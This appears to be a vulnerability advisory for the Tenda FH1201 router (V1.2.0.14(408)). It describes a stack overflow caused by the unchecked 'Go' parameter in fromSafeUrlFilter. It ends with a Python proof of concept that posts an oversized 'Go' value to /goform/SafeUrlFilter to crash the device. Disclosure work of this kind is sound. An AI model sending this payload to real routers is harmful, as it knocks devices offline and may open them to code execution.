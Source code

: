 # Tenda FH1201 fromSafeUrlFilter_Go
### Overview
vendor: Tenda

product: FH1201

version: V1.2.0.14(408)

type: Stack Overflow
### Vulnerability Description
Tenda FH1201 V1.2.0.14(408) were discovered to contain a stack overflow via the Go parameter in the fromSafeUrlFilter function.
### Vulnerability details
In function fromSafeUrlFilter line 44, it reads in a user-provided parameter `Go`, and the variable is passed to the `strcpy` function without any length check, which may overflow the stack-based buffer `dest`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/21.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/SafeUrlFilter"

data = {
    "menufacturer": "tenda",
    "Go": "a" * 1000,
}

response = requests.post(url, data=data)
print(response.text)
```

![](images/22.png)
